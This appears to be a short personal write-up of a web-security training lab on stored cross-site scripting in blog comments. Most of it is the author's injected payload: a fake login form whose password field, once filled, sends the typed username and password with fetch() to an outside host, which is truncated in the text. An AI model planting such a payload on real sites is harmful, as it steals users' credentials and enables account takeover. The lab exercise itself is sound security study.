 *This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.*

After a long time figuring out the correct functioning script, I ran the following in the comment function:
```javascript
<body>
  <script>
    function stealsCreds(u, p) {
      fetch("https://", {
        method: "POST",
        mode: "no-cors",
        body: u+":"+p,
      });
    }
  </script>
  <form>
    username:<input type="text" id="username101" name="username" />
    password:<input
      name="password"
      type="password"
      id="password101"
      onchange="if(this.value.length){stealsCreds((document.getElementById('username101').value),(document.getElementById('password101').value));}"
    />
  </form>
</body>
```
![[Screenshot 2024-05-17 at 3.19.43 PM.png]]
